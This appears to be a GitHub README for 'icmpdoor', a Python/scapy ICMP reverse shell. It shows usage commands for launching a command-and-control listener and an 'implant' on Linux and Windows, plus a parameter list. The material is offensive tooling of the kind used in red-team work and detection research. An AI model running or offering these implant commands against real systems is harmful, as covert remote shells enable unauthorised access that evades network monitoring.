 # ICMP Reverse Shell
ICMP reverse shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

Python version (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Widows binary version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Parameters details:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
